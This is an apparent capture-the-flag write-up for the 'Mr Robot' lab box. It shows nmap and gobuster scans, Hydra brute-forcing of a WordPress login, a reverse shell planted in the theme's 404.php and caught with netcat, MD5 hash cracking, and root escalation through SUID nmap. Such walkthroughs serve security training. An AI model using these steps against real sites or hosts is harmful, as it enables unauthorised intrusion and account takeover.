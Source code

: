 # Mr Robot
Find the 3 hidden flags

## Solution

ip=10.10.231.112
First, we scan the box using nmap

```
> nmap -sC -sV 10.10.231.112 -oN nmap-initial

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-16 23:57 CET
Nmap scan report for 10.10.231.112
Host is up (0.046s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

We know that port 80 is open. Let's visit it.  
Entering http://10.10.231.112 we have a terminal. 

As a first step we study the different commands the terminal provides. 
Using the _join_ command we then get asked to provide an email. We can set up a temporary mail and give it. Seems a void feature, no messages are sent to the provided email.  
We start looking in other directions.


The name of the box is Mr Robot. Visiting the robot.txt file we get 
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Now with http://10.10.231.112/key-1-of-3.txt we get the first flag

Visiting https.//10.10.231.112/fsocity.dic we can download a txt file. Presumibely, it's a dictionary file we can use to bruteforce some logins

Running gobuster to scan hidden directories
```
gobuster dir -u http://10.10.231.112 -t 64 -w /usr/share/wordlists/rockyou.txt
```

I continued the challenge on a second day. New ip=10.10.33.211

In http://10.10.33.111/wp-login.php we have a login form. We try to login as admin, bruteforcing the password using using Hydra and the fsocity.dic as wordlist file but it doesn't work.  
So, first we notice that Wordpress gives indication whether the username is correct or not. We use the provided dictionary to bruteforce the login name. Namely:
```
> hydra -L fsocity.dic -p password 10.10.33.211 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:invalid username' 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-21 22:26:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.33.211:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: 10.10.33.211   login: Elliot   password: password
```

We know that a user Elliot exists. Now we can bruteforce the password:
```
> hydra -l Elliot -P fsocity.dic 10.10.33.211 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username'
```
Once we get the password we can log in.

Once logged in, we can gain access to the underlying host by uploading a reverse shell in Appearence -> Editor.  
Uploading the code in the 404.php, the script will be executed every time the 404 page is triggered.  
We have now the reverse shell.

```
>nc -lnvp 1234
listening on [any] 1234 ...
10.10.37.252: inverse host lookup failed: Unknown host
connect to [10.9.80.140] from (UNKNOWN) [10.10.37.252] 51988
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:24:06 up  1:05,  0 users,  load average: 0.00, 0.01, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can stabilize the shell using python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


Navigating in the home of robot, we get a username and a md5 hash:
```
daemon@linux:/home/robot$ cat pass
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We crack it using the CraskStation and we get the password.  
We can use the password to login in robot account.

In /home/robot we also find the second flag.
One flag remaining now.


We enumerate the binaries with SUID, discarding the errors (Permission Denied):
```
find / -user root -perm -4000 2>/dev/null
```

In GTFObins we find how to exploit this misconfiguration and become root.
```
nmap --interactive
nmap> !sh
```

Navigating in /root we find the third and last key.
